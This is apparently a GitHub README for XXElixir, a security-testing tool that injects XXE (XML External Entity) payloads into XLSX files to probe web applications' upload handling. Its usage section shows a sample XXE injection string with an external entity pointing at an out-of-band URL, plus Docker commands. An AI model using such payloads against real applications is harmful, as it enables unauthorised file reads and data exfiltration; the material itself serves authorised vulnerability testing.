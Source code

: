 <h1 align="center">
XXElixir 🧪
</h1>

<p align="center">
    <img src="XXElixir.svg" height="40%" width="40%" Setfill=None>
</p>

<p align="center">
This tool is designed to test for file upload and XXE (XML External Entity) vulnerabilities by poisoning an XLSX file. It allows the user to inject custom XML content or specify an out-of-band URL to retrieve data from an external entity. The tool works by unzipping the input XLSX file, modifying the workbook.xml file to include the user-specified XML content or URL, and then zipping the modified directory back into a new XLSX file. The resulting file can be used to test for file upload and XXE vulnerabilities in web applications that accept XLSX files.
</p>


## Usage 🛠 

Poison .XLSX file ☣️
```
python3 --file test.xlsx --xxe "<\!DOCTYPE ShiftSecurityConsulting [ <\!ENTITY xxe SYSTEM 'http://out-of-band.url'> ]>" --output poisoned.xlsx
```
```
python3 --file test.xlsx --url https://shiftsecurityconsulting.com --output poisoned.xlsx
```

## Running from Docker 🐳

Build
```
docker build -t xxelixir .
```

Run
```
docker run -v $(pwd)/data:/data -ti xxelixir -f data/test.xlsx -u https://shiftsecurityconsulting.com -o /data/poisoned.xlsx
```


## Parameters 🧰 

Parameter | Description | Type
------------ | ------------- | -------------
--url / -u | The URL for out of band testing | String
--file / -f | Input XLSX file | File
--output / -o | Output file | File
--xxe |Custom XXE injection string | String

## Contact Me 📇

[LinkedIn - Milan Jovic](https://www.linkedin.com/in/milan-jovic-sec/)

[Twitter - Milan Jovic](https://twitter.com/milanshiftsec)

#### Educational purposes only and cannot be used for law violation or personal gain.
#### The author of this project is not responsible for any possible harm caused by the materials of this project.

